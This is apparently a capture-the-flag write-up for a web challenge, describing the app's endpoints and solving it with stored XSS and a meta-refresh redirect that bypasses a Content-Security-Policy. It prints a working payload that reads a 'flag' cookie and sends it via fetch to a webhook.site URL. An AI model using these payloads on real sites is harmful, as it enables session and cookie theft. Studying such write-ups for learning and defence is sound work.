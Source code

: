 `<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-inline'; "><br><script>alert(1)</script>`

But did not made it.

There are six endpoints:
- / main page
- /signin which creates a random user using UUID
- GET /user/<uuid> which get user profile, sets CSP in headers
- POST /user/<uuid> which accepts two parameters, user and profile, profile being the one that is vulnerable to xss
- GET /username/<uuid> which shows the user parameter and is vulnerable to xss in that parameter
- POST /report which expects a url like /user/<uuid> and goes to it, it uses redis to save url's to browse.


The solution was using the <meta> refresh tag to navigate to /username/:id which is basically same endpoint just without CSP in place, using two accounts.
First create and account and add the following username and profile payload, adding the actual javascript execution in the username:
```py
# fetch get payload  
fpayload = """<script>
    document.addEventListener('DOMContentLoaded', function() {
        function getCookieValue(name) {
            const value = `; ${document.cookie}`;
            const parts = value.split(`; ${name}=`);
            if (parts.length === 2) return parts.pop().split(';').shift();
        }

        var flagCookieValue = getCookieValue('flag');
        fetch('https://webhook.site/79772fdd-c167-4829-a53c-ba6d3c5fcae6?cookie=' + encodeURIComponent(flagCookieValue), {
            method: 'GET',
            mode: 'no-cors',
            credentials: 'include'
        }).then(response => {
            console.log('Fetch response:', response);
        }).catch(error => {
            console.error('Fetch error:', error);
        });
    });
</script>"""

form_data1 = { "username": fpayload, "profile":"asdfg1"} 
```

Then create another account with the <meta> tag with the refresh pointing to the xss but in the username endpoint like:
```py

payload2 = f"<meta http-equiv='refresh' content='0;url={new_url}'>"

form_data2 = {"username": "foo", "profile": payload2}

```
